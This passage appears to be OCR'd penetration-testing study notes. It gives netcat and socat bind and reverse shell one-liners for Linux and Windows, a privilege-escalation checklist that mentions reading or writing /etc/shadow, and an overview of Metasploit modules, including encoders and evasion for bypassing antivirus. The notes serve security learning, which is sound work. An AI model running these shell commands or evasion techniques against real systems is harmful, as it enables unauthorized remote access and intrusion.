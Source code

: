 | A: ``socat TCP-L:<port> FILE: `tty`, raw, echo=0``
| T: `socat TCP:<IP>:<port> EXEC "bash -li", pty,stderr,sigint,setsid,sane`

### Bind Shell
| Linux | Windows 
| ---------| -------
| T: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f` | `nc -lnvp <port> -e "cmd.exe"`
| A: `nc <IP> <port>` 
||
| T: `socat TCP-L:<port> EXEC: "bash -li"` | `socat TCP-L:<port> EXEC: powershell.exe, pipes`
| A: `socat TCP:<IP>:<port> -`

## Privilege Escalation
- The exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.
- LinEnum is a bash script that performs common commands related to privilege escalation.
1. Weak File Permissions
    - Readable `/etc/shadow`
    - Writable `/etc/shadow`, `/etc/passwd`
2. `sudo -l`
3. Cron Jobs
4. SUID / SGID Executables
5. Password and Keys

## Metasploit: Introduction
- **Metasploit** is a tool for pentesting, ranging from enumeration to post-exploitation.
- **Metasploit Framework** is the open-source version that works from the command line.
- Main Components
  - msfconsole - CLI
  - modules - scanners, payloads, exploits, etc.
  - tools - msfvenom
- Definitions
  - vulnerability - a flaw in the target system
  - exploits - code that uses a vulnerability
  - **?** payload - code that runs on target system
- Modules
  - auxiliary - supporting modules like scanners, crawlers
  - encoder - encode exploit and payload to bypass signature-based antivirus
  - evasion - evade antivirus software
  - exploits
  - NOP - does nothing 
  - payload
    - singles - don't need to download additional components to run
    - **?** adapters - wrap single payloads
    - stagers - set up connection between Metasploit and target system
    - stages - downloaded by stagers, allow for larger payloads
  - post - post-exploitation
- `_` for single (in-line) payload, `/` for staged payload
- **msfconsole** is context-based, meaning all module options settings (unless global) will be lost if the module is changed.
- `setg` is `set` for global variables, likewise `unsetg` for `unsetg`
- The exploitation process is 3 steps:
  1. Find the exploit
  1. Customize the exploit
  1. Exploit the vulnerable service
    